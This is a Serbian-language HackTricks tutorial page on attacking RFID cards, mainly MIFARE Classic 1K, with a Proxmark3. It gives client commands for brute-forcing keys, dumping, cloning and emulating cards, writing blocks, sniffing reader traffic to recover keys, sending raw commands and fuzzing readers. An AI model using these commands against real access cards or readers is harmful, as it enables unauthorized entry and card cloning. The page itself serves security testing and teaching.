 # Proxmark 3

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Napad na RFID sisteme sa Proxmark3

Prva stvar koju treba da uradite je da imate [**Proxmark3**](https://proxmark.com) i [**instalirate softver i njegove zavisnosti**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux)[**s**](https://github.com/Proxmark/proxmark3/wiki/Kali-Linux).

### Napad na MIFARE Classic 1KB

Ima **16 sektora**, svaki od njih ima **4 bloka** i svaki blok sadrži **16B**. UID se nalazi u sektoru 0 bloku 0 (i ne može se menjati).\
Da biste pristupili svakom sektoru, potrebna su vam **2 ključa** (**A** i **B**) koja su smeštena u **bloku 3 svakog sektora** (sektorski trailer). Sektorski trailer takođe čuva **bitove pristupa** koji daju **dozvole za čitanje i pisanje** na **svakom bloku** koristeći 2 ključa.\
2 ključa su korisna za davanje dozvola za čitanje ako znate prvi i pisanje ako znate drugi (na primer).

Mogu se izvršiti nekoliko napada
```bash
proxmark3> hf mf #List attacks

proxmark3> hf mf chk *1 ? t ./client/default_keys.dic #Keys bruteforce
proxmark3> hf mf fchk 1 t # Improved keys BF

proxmark3> hf mf rdbl 0 A FFFFFFFFFFFF # Read block 0 with the key
proxmark3> hf mf rdsc 0 A FFFFFFFFFFFF # Read sector 0 with the key

proxmark3> hf mf dump 1 # Dump the information of the card (using creds inside dumpkeys.bin)
proxmark3> hf mf restore # Copy data to a new card
proxmark3> hf mf eload hf-mf-B46F6F79-data # Simulate card using dump
proxmark3> hf mf sim *1 u 8c61b5b4 # Simulate card using memory

proxmark3> hf mf eset 01 000102030405060708090a0b0c0d0e0f # Write those bytes to block 1
proxmark3> hf mf eget 01 # Read block 1
proxmark3> hf mf wrbl 01 B FFFFFFFFFFFF 000102030405060708090a0b0c0d0e0f # Write to the card
```
Proxmark3 omogućava izvođenje drugih radnji kao što je **prisluškivanje** komunikacije između **Tag-a i čitača** kako bi se pokušalo pronaći osetljive podatke. Na ovoj kartici možete jednostavno presresti komunikaciju i izračunati korišćeni ključ jer su **kriptografske operacije slabe** i poznavajući običan i šifrovani tekst možete ga izračunati (`mfkey64` alat).

### Raw Commands

IoT sistemi ponekad koriste **nebrendirane ili nekomercijalne tagove**. U ovom slučaju, možete koristiti Proxmark3 za slanje prilagođenih **raw komandi tagovima**.
```bash
proxmark3> hf search UID : 80 55 4b 6c ATQA : 00 04
SAK : 08 [2]
TYPE : NXP MIFARE CLASSIC 1k | Plus 2k SL1
proprietary non iso14443-4 card found, RATS not supported
No chinese magic backdoor command detected
Prng detection: WEAK
Valid ISO14443A Tag Found - Quiting Search
```
Sa ovom informacijom možete pokušati da potražite informacije o kartici i o načinu komunikacije sa njom. Proxmark3 omogućava slanje sirovih komandi kao što su: `hf 14a raw -p -b 7 26`

### Skripte

Proxmark3 softver dolazi sa unapred učitanom listom **automatskih skripti** koje možete koristiti za obavljanje jednostavnih zadataka. Da biste dobili punu listu, koristite komandu `script list`. Zatim, koristite komandu `script run`, praćenu imenom skripte:
```
proxmark3> script run mfkeys
```
Možete kreirati skriptu za **fuzz tag čitače**, tako što ćete kopirati podatke sa **validne kartice** jednostavno napišite **Lua skriptu** koja **randomizuje** jedan ili više nasumičnih **bajtova** i proverava da li **čitač pada** sa bilo kojom iteracijom.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
